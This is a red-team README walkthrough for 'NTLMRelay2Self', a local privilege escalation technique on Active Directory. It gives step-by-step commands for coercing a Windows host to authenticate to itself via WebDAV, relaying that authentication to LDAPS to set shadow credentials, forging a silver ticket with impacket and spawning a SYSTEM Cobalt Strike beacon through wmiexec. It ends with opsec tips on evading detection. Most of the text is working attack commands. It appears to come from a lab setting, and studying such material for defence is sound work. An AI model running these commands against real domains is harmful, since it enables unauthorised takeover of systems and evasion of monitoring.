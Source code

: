 # NTLMRelay2Self

## NTLMRelay2Self over HTTP (Webdav)
 
Just a walkthrough of how to escalate privileges locally by forcing the system you landed initial access on to reflectively authenticate over HTTP to itself and forward the received connection to an HTTP listener (ntlmrelayx) configured to relay to DC servers over LDAP/LDAPs for either setting shadow credentials or configuring RBCD.

This would result in a valid kerberos TGT ticket that can be used to obtain a TGS for a service (HOST/CIFS) using `S4U2Self` by impersonating a user with local administrator access to the host (domain admin ..etc), or alternatively, it's also possible to retrieve the machine account's NTLM hash with getnthash.py and then create a silver ticket.

Lastly, use the TGS or silver ticket to spawn a system (session 0) process, this can be achieved by simply using `WMIExec` or alternatively using `SCMUACBypass` script to rely on kerberos for auth to interact with the SCM and create a service in the context of SYSTEM.

The steps below lists all the actions taken to escalate privileges locally on an up to date Windows 10 (1909) system, the cobalt strike beacon (or any other c2 agent) is running in the context of an unprivileged user `LAB\User1`. 


<b>Domain:</b> lab.local <br>
<b>DC IP:</b> 10.2.10.1 <br>
<b>Win10 IP:</b> 10.10.177.112 <br>
<b>Linux machine CS client running on:</b> 172.16.1.5 <br>

### <u>Steps:</u>

<b>TLDR:</b> On the linux machine, we run ntlmrelayx and listen for any NTLM connections over HTTP port 80, and then use the printerbug script to force the `Win10` system to authenticate using the machine account against itself on port 80, which hopefully should get picked up by our reverse port forward (beacon) on port 80 and redirected to the ntlmrelayx HTTP listener, and then ntlmrelayx will relay it through the socks proxy to the DC server over LDAP/LDAPs to set shadow credentials on the `Win10$` computer account.

1. Start the WebClient service from an unprivileged context: <br>
    `inline-execute StartWebClientSvc.x64.o`<br>
    `sc_query webclient`

2. On your cobalt strike beacon, setup a socks proxy and reverse port forward: <br>
`socks 5009`<br>
`rportfwd_local 80 172.16.1.5 80`

3. Check if `msDS-KeyCredentialLink` attribute is Not already set on the current `WIN10` machine account. <br>
`ldapsearch "(&(objectClass=computer)(sAMAccountName=WIN10*))" sAMAccountName,msDS-KeyCredentialLink`

4. Setup the Listener on Linux system CS client is running on: <br>
`proxychains python3 ntlmrelayx.py -domain lab.local -t ldaps://10.2.10.1 --shadow-credentials --shadow-target WIN10\$`

5. Coerce the `WIN10` system to authenticate to itself to port 80 (HTTP), this requires the <u>WebClient</u> service and the <u>Printer Spooler</u> service to be running on `WIN10`::<br>
`proxychains python3 printerbug.py "lab.local/User1:Passw0rd01@10.10.177.112" wind10@80/print` <br> Alternatively, you can use PetitPotam: <br>
`python3 PetitPotam.py -u User1 -p Passw0rd01 -d lab.local WIN10@80/print 10.10.177.112`

7. If the previous two (2) steps were executed with no error, you should get a message stating shadow credentials were successfully set on the WIN10$ machine account, you can quiclky check for that using: <br>
`ldapsearch "(&(objectClass=computer)(sAMAccountName=WIN10*))" sAMAccountName,msDS-KeyCredentialLink`

<br><b>The remaining steps are standard PKINIT actions to get a TGT for WIN10$, then recover the NT Hash and lastly create a silver ticket for the `HOST\WIN10` SPN: </b><br><br>

8. Request a TGT for WIN10$:<br>
 `proxychains python3 gettgtpkinit.py -cert-pfx WIN10.pfx -pfx-pass 8kX4grjUrY8gvzjrphl5 lab.local/WIN10$ WIN10.ccache`

9. `export KRB5CCNAME=/PATH_TO/WIN10.ccache`

10. Get the NT Hash:<br>
 `proxychains python3 getnthash.py -key 397eef25429f6b7249a11dfaa874df5c92bf44974b1bb962591937d656f0e827 -dc-ip 10.2.10.1 lab.local/WIN10$`

11. Create a silver ticket for the HOST SPN:<br>
 `impacket-ticketer -domain-sid S-1-5-21-81107902-1099128984-1836738286 -domain lab.local -spn HOST/WIN10.LAB.LOCAL -nthash db6484c89c273e269a23b1bdc53f7cdf -user-id 1155 Administrator`

12. Export the silver ticket for kerberos auth:<br>
 `export KRB5CCNAME=/PATH_TO/Administrator.ccache`

13. Get a SYSTEM beacon using `Wmiexec`:<br>
`proxychains4 python3 wmiexec.py -nooutput -silentcommand -dc-ip 10.2.10.1 -k -no-pass lab.local/Administrator@WIN10.LAB.LOCAL 'C:\Users\User1\Desktop\Files\mcbuilder.exe'` <br>
Or alternatively use `SCMUACBypass` script from James (@tiraniddo)


### <u>Cleanup:</u>

1. Export the TGT created in step 8:<br>
 `export KRB5CCNAME=/PATH_TO/WIN10.ccache`

2. Get the public key set on `ms-dsKeyCredentialLink` GUID:<br>
 `proxychains python3 pywhisker.py -u "WIN10$" -d "lab.local" --dc-ip 10.2.10.1 -k --no-pass --target 'WIN10$' --action "list" -vv`

3. Remove the public key set:<br>
 `proxychains python3 pywhisker.py -u "WIN10$" -d "lab.local" --dc-ip 10.2.10.1 -k --no-pass --target 'WIN10$' --action "remove" -D 97dc9d92-6d23-6031-7e1d-b5a13e305c8b`

4. Check if the public key is removed:<br>
 `ldapsearch "(&(objectClass=computer)(sAMAccountName=WIN10*))" sAMAccountName,msDS-KeyCredentialLink`


### <u>Notes:</u>

* Shadow Credentials requires LDAP signing and channel binding to be disabled, you can use `LDAPRelayScan` to confirm that.
* Machine accounts are allowed to change their own LDAP attributes (Not applicable for user accounts), however keep in mind that this will only work in case if the `ms-DSKeyCredentialLink` attribute does not exist for the machine account we want to LPE on.
* LDAP Signing and Channel Binding must be disabled on the DC (typical configuration for many DC deployments)
* When Testing in a HomeLab, make sure you've:
    * Windows Server 2016 Functional Level for AD
    * A digital certificate for Server Authentication on DC.
    * Disable Windows Firewall on the Win10 system, this would not be a road block when dealing with real world organizations.

### <u>Opsec !!:</u>

- Using Ticketer for forging a silver ticket from the NT hash can be detected (ATA) by monitoring for RC4 encrypted Kerberos ticket, most modern MS environments rely on AES Kerberos encryption instead. an alternative would be to use S4U2Self to obtain a TGS ticket check `gets4uticket` from Dirk-jan.

- SCMUACBypass creates a service, can be customized to update an existing service and point it to your beacon payload instead of `cmd.exe`, `Wmiexec` doesn't create any services, that does not mean that Wmiexec with `-nooutput` and `-silentcommand` have no detections. just an opsec-safe alternative with a minimal footprint, i could be wrong though, who knows. 

- Shadow Credentials changes the `ms-DsKeyCredentialLink` only, on the other hand RBCD requires the `MachineQuota` to be set to 10 for default domain users (not always the case), plus a computer object will need to be created or have control over an existing AD joined system with an SPN set (required for delegation), then reflect it in the `AllowedToActOnBehalfOfOtherIdentity` LDAP attribute.



### <u>Refs: </u>
* `LdapRelayScan` https://github.com/zyn3rgy/LdapRelayScan
* `SCMBypassUAC` https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82
* `gets4uticket` https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py
* `impacket` https://github.com/SecureAuthCorp/impacket

### <u>Credits: </u>
Based on the research and tools/PoCs created by:
* @tifkin_
* @tiraniddo
* @_dirkjan
* @harmj0y
* @ShutdownRepo
* @topotam

